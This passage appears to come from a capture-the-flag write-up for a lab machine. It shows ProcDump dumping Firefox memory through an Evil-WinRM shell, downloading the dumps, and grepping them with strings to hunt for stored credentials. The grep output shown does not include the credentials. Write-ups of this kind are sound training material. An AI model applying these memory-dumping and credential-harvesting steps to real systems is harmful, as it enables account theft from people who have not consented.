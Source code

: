 ```
[17:01:54] Dump 1 writing: Estimated dump file size is 287 MB.
[17:01:56] Dump 1 complete: 287 MB written in 1.7 seconds
[17:01:56] Dump count reached.


ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:01:56] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210801_170156.dmp
[17:01:56] Dump 1 writing: Estimated dump file size is 332 MB.
[17:01:58] Dump 1 complete: 333 MB written in 2.2 seconds
[17:01:59] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   5:01 PM      315768147 firefox.exe_210801_170146.dmp
-a----         8/1/2021   5:01 PM      304572449 firefox.exe_210801_170148.dmp
-a----         8/1/2021   5:01 PM      483720505 firefox.exe_210801_170150.dmp
-a----         8/1/2021   5:01 PM      293288763 firefox.exe_210801_170154.dmp
-a----         8/1/2021   5:01 PM      340048246 firefox.exe_210801_170156.dmp
-a----         8/1/2021   4:56 PM         401288 procdump64.exe

```

We can then download those onto our host and look for interesting stuff in the dumps.
Evil-winrm has a helper command to download files (ie. `download <filename>`) which can use to download our files.

Tried grepping for different user names based on previous recon, did not identify anything. Ended up searching for SUPPORTDESK and looking for strings near it using `-A 10` (ie. 10 strings after a match) and found credentials for the admin@support.htb account:
```
root@7503d1b16b8c:/opt# strings firefox.exe_210801_021538.dmp  | grep SUPPORTDESK -A 10
COMPUTERNAME=SUPPORTDESK
TMP=C:\Users\Chase\AppData\Local\Temp
TEMP=C:\Users\Chase\AppData\Local\Temp
HOMEPATH=\Windows\system32
ComSpec=C:\Windows\system32\cmd.exe
PROCESSOR_ARCHITECTURE=AMD64
APPDATA=C:\Users\Chase\AppData\Roaming
ProgramW6432=C:\Program Files
ProgramData=C:\ProgramData
ALLUSERSPROFILE=C:\ProgramData
ProgramFiles=C:\Program Files
--
        USERDOMAIN=SUPPORTDESK
USERNAME=Chase
windir=C:\Windows
__PSLockdownPolicy=1
Xw<,
pz<,
`{<,
`{<,
pz<,
@}<,
P|<,
--
```